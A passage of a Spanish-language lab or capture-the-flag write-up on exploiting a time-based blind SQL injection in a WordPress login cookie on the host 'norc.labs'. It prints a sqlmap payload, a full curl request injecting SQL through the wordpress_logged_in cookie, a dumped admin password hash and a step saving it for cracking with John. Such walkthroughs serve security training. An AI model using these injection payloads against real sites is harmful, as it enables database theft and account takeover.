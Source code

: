 ![Pasted image 20241030132119](https://github.com/user-attachments/assets/3b936336-3177-4c3f-8df2-2c4910e797c0)

Este sería el `payload` que está enviando `sqlmap` para intentar 

~~~ sql
AND (SELECT 9419 FROM (SELECT(SLEEP(5-(IF(ORD(MID((SELECT IFNULL(CAST(column_name AS NCHAR),0x20) FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name=0x77705f7573657273 AND table_schema=0x776f72647072657373 LIMIT 0,1),2,1))>64,0,5)))))CLKl) AND "wCCa"="wCCa
~~~

![Pasted image 20241030021501](https://github.com/user-attachments/assets/ffb518ad-0688-4160-9a9b-f20132a38a3d)

`sqlmap` nos dumpeó este registro de la tabla `wp_users`

![Pasted image 20241030023157](https://github.com/user-attachments/assets/4e52cf9c-fe0a-498d-bae7-a73d5ab8d325)

- Tenemos por un lado el `hash`, que intentaremos crackearlo más adelante
- Vemos el nombre de usuario (`admin`)
- Se nos muestra un dominio para el usuario `admin`, `oledockers.norc.labs`

Agregaremos este nuevo dominio a nuestro archivo `/etc/hosts`

![Pasted image 20241030131156](https://github.com/user-attachments/assets/aa04a6b1-579b-4683-b9c4-dff731d15cb0)

## Explotación Manual

Podemos explotar manualmente esta vulnerabilidad con el siguiente comando, en este caso, se está comprobando si la longitud del nombre de usuario `admin` (asumiendo que existe) es `5`, entonces el servidor esperará 5 segundos para enviarnos la respuesta

~~~ bash
curl --path-as-is -i -s -k -X $'GET' \
    -H $'Host: norc.labs' -H $'Upgrade-Insecure-Requests: 1' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' -H $'Accept-Encoding: gzip, deflate, br' -H $'Accept-Language: en-US,en;q=0.9' -H $'Content-Length: 21' -H $'Connection: close' \
    -b $'wordpress_logged_in=\" AND (SELECT 100 FROM (SELECT(SLEEP(5)) WHERE (SELECT LENGTH(user_login) FROM wp_users WHERE user_login=\'admin\')=5)TempTable) AND \"a\"=\"a' \
    $'http://norc.labs/wp-login.php'
~~~

En `burpsuite` podemos hacer esto de forma más legible

https://github.com/user-attachments/assets/bb29914b-c459-407c-9d29-9a9485965054


`Hashes.com `nos da una pista sobre el algoritmo utilizado para encriptar esta contraseña

![Pasted image 20241030023917](https://github.com/user-attachments/assets/89b7815b-cfc1-407c-9d4d-e159cd2ca096)

## John
Guardamos el hash en un archivo

~~~ bash
echo '$P$BeNShJ/iBpuokTEP2/94.sLS8ejRo6.' >> hash
~~~
